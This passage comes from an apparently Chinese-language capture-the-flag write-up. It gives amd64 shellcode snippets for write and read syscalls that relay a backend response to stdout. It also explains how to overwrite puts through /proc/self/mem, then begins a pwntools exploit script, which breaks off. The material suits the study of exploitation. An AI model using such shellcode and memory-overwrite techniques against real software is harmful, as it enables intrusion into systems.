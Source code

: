             xor rax, rax
            mov al, 0x1

            mov rdi, r8

            mov rsi, rsp

            xor rdx, rdx
            mov dl, 0xa4

            syscall
        """
        ```
    4. Read
        這一段原本的command應該是`read(fd, &res, sizeof(res))`，我們會去接res傳回來的結果，所以後面的size應該直接看res他的結構有多大而定，總共是一個uint32_t的code + 256個char，所以是260 bytes，也就是0x104，並且我們把res的地址傳給\$rsp
        ```python
        # read(fd, $rsp, sizeof(res));
        read = """
            xor rax, rax

            mov rdi, r8

            mov rsi, rsp

            xor rdx, rdx
            mov dx, 0x104

            syscall
        """
        ```
    5. Write 2 Console
        現在我們已經取得backend傳回來的response，但前端還沒辦法顯示，所以我們需要寫到stdout
        ```python
        # write(1, $rsp, 0x40);
        write2console = """
            xor rax, rax
            mov al, 0x1

            xor rdi, rdi
            mov dil, 0x1

            mov rsi, rsp

            xor rdx, rdx
            mov dl, 0x40

            syscall
        """
        ```
4. 接著我們就只要透過command 4的write note功能把構建好的shellcode，寫到/proc/self/mem對應的位置就好，也就是置換掉puts原本的操作，讓他再次call到puts的時候就會執行我們的shellcode
## Exploit - Arbitrary Read → Arbitrary Write → Shellcode
:::spoiler
```python
from pwn import *
from tqdm import *

context.arch = 'amd64'
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

cmd_dic = {1:'Login', 2:'Register', 3:'New Note', 4:'Edit Note', 5:'Show Note'}
def dealing_cmd(r, cmd, note_name=b'test', content=b'test\n', offset=b'0', random='0'):
    r.recvlines(7)
    if cmd == 1 or cmd == 2:
```